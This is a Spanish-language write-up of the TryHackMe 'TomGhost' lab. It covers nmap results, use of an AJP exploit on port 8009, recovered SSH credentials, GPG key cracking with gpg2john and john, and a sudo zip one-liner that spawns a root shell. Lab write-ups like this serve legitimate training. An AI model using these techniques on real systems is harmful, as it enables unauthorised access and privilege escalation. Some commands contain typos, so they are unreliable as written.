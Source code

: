 ```yaml
---
title: "TomGhost Writeup - Try-Hack-Me"
date: 2023-07-10
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets\img\imagenes\tomghost.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "TomGhost banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

### El puerto 8009 tiene un apache (protocol v1.3) esto se ve muy vulnerable asi que buscaremos exploit en internet. 
conseguimos uno en python vamos a probarlo.
![[Pasted image 20231108220910.png]]
![[Pasted image 20231108221204.png]]

### Username
```python
	skyfuck:8730281lkjlkjdqlksalks
```

### intentamos entrar en el puerto ssh con las credenciales que hemos conseguido
![img](/assets/img/imagenes/Pasted image 20231108222709.png)

### tenemos dos archivos interesantes asi que los enviaremos a nuestra maquina. usando netcat.
maquina atacante
![img](/assets/img/imagenes/Pasted image 20231108225042.png)
maquina victima
![img](/assets/img/imagenes/Pasted image 20231108225117.png)

### usaremos gpg2john para sacar el hash del archivo y despues lo usaremos para pasarle a john de la siguiente forma
```python
	gpg2john tryhackme > hash.txt

	luego usaremos has para pasarlo a john

	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![img](/assets/img/imagenes/Pasted image 20231108225457.png)
### usando la herramienta pgp vamos a desencrictar los hahs 
```python
	pgp --import tryhachme.asc
	pgp --decrypt credential.pgp
```
usaremos las credenciales de alexandru
![img](/assets/img/imagenes/Pasted image 20231108233123.png)

### obtenemos otro usuario llamado merlin con lo que parece su clave.
veremos si tenemos permisos sudos con sudo -l
![img](/assets/img/imagenes/Pasted image 20231108235244.png)

### podemos hacer todo sobre el archivo zip. asi que aprovecharemos esto para escalar provilegios
```python
	sudo zip $TF /etc/hosts -T -TT 'sh #'
	sudo rm $TF
```
cambiaremos el "zip" por la ruta absoluta donde esta nuestro zip. en este caso /usr/bin/zip
![img](/assets/img/imagenes/Pasted image 20231108235752.png)

### WE ARE ROOT